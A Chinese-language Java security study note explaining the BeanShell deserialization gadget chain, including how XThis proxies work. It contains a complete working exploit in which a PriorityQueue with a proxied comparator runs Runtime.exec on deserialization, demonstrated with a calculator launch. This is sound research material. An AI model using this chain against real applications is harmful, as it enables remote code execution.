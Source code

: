 # Java安全学习— BeanShell链

Author: H3rmesk1t

Data: 2022.03.16

# BeanShell 简介
[BeanShell](https://en.wikipedia.org/wiki/BeanShell) is a small, free, embeddable Java source interpreter with object scripting language features, written in Java. It runs in the Java Runtime Environment (JRE), dynamically executes standard Java syntax and extends it with common scripting conveniences such as loose types, commands, and method closures, like those in Perl and JavaScript.

# 前置知识
## Interpreter
`bsh.Interpreter`是一个将`BeanShell`脚本解释并执行的解释器. 可以通过`set`方法来设置变量, 然后通过`eval`方法来解释和执行脚本, 解析和设置的变量都会保存在`Interpreter`实例的成员变量`globalNameSpace`中. `bsh.NameSpace`就是一个保存着方法、变量、引入包的命名空间. `NameSpace`与一个`Interpreter`实例共同构成了一个`Bsh`脚本对象的上下文.

<div align=center><img src="./images/1.png"></div>

<div align=center><img src="./images/2.png"></div>

## XThis
`bsh.This`是`Bsh`脚本对象类型, 一个`This`对象就是一个`Bsh`脚本的对象的上下文, 一个`This`对象储存了`NameSpace`和`Interpreter`, 并提供了一些方法用于操作上下文中的内容.

<div align=center><img src="./images/3.png"></div>

其中`invokeMethod`方法提供了使用`Java`代码从`Bsh`脚本外部调用方法的功能.

`XThis`是`bsh.This`对象的子类, 在`This`的基础上添加了通用接口代理机制的支持, 即`InvocationHandler`. `XThis`中有一个内部类`Handler`, 实现了`InvocationHandler`接口并重写了`invoke`方法, 调用了`invokeImpl`方法. `invokeImpl`方法特殊处理了`equals`和`toString`方法, 调用`invokeMethod`执行对应的方法, 并使用`Primitive.unwrap`处理返回值.

<div align=center><img src="./images/4.png"></div>

总的来说, `XThis`是一个`Bsh`脚本的对象的代理类, 可以在外部通过这个代理类调用`Bsh`脚本的方法.

# POC
```java
package org.h3rmesk1t.BeanShell;

import bsh.Interpreter;
import bsh.XThis;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:11 上午
 */
public class BeanShellExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    
    public static void main(String[] args) throws Exception {

        // compare 函数, 需要接受两个参数, 返回 Integer 类型.
        String func = "compare(Object whatever,Object dontCare) {java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");return new Integer(1);}";

        // 将 compare 方法注册至 Interpreter 实例上下文中.
        Interpreter interpreter = new Interpreter();
        interpreter.eval(func);

        // 创建 XThis 对象, 获取其 invocationHandler.
        XThis xThis = new XThis(interpreter.getNameSpace(), interpreter);
        Field handlerField = XThis.class.getDeclaredField("invocationHandler");
        handlerField.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) handlerField.get(xThis);

        // 使用 XThis$Handler 为 Comparator 创建动态代理
        Comparator<Object> comparator = (Comparator<Object>) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        // 序列化操作.
        String exp = serialize(queue);
        System.out.println(exp);

        // 反序列化操作.
        unserialize(exp);
    }
}
```

# 调用链
```java
PriorityQueue.readObject()
    Comparator.compare()
            XThis$Handler.invoke()
                XThis$Handler.invokeImpl()
                    This.invokeMethod()
                        BshMethod.invoke()
```

# 总结
## 利用说明
利用`PriorityQueue`反序列化触发`Comparator`的`compare`方法, 使用`XThis$Handler`动态代理`Comparator`并在其`Interpreter`内构造带有恶意代码的`compare`方法触发调用.

## Gadget
 - kick-off gadget: java.util.PriorityQueue#readObject
 - sink gadget: bsh.This#invokeMethod
 - chain gadget: bsh.XThis$Handler#invokeImpl
 - 补充: 其实可以利用`XThis`来实现任意`kick-off`的触发, 这是因为可以使用动态代理执行任何方法.

# 参考
 - [BeanShell](https://su18.org/post/ysoserial-su18-5/#:~:text=rome%20%3A%201.0-,BeanShell,-BeanShell%20%E6%98%AF%E4%B8%80%E4%B8%AA)